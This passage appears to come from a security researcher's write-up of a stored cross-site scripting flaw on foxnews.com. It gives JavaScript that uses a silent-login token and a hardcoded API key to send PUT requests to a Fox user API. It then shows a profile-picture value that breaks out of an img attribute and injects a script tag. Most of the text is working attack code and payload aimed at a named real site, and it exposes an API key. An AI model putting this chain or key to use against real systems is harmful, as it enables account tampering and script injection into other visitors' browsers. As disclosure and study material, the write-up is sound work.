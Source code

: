        for (var i = 0; i < allowed.length; i++) {
         if (allowed[i]) {
           res = true;
           break;
         }
       }
       return res;
     };
    })();

### 2. Use these credentials to change your profile picture to include some injected JS

After you receive the response from *xd-channel.html*, you can send requests to api2.foxnews.com to do things like change your display name to “New display name”*:*

    let id = silentLoginData['userInfo']['https://foxnews.com/user_id'];
    let token = silentLoginData['token'];
    let values = {
     url: 'https://api2.fox.com/v2.0/update/' + **id**,
     data: '{"displayName":"**New display name**"}',
     method: 'PUT',
     headers: {
       authorization: 'Bearer '+ **token**,
       content-type: 'application/json',
       x-api-key: 'vHeTnXOe984VBvC0ud8lPpSbsxJ0c7kQ',
     },
    };
    $.ajax(values).done(function(resp) {
     console.log('Response: ', resp);
    });

Check out[ https://my.foxnews.com/js/app/components/auth.js](https://my.foxnews.com/js/app/components/auth.js?cb=201811271725) to figure out what other messages are valid.

foxnews.com has disabled setting your profile picture from their website, but we can set it now by adding a *picture* property to the update values, e.g.

    let values = {
     ...
     data: '{"picture":"http://some-domain.com/some-image.png"}',
     ...
    };

This picture will be the src attribute of every page load, e.g.

    <img src=”**http://some-domain.com/some-image.png" />**

### 3. Add some JS to your profile picture and every time you load a page, that injected JS runs

As it turns out you can set this value to any string, including the following:

    http://some-domain.com/some-image.png"><script>alert('hello')</script>
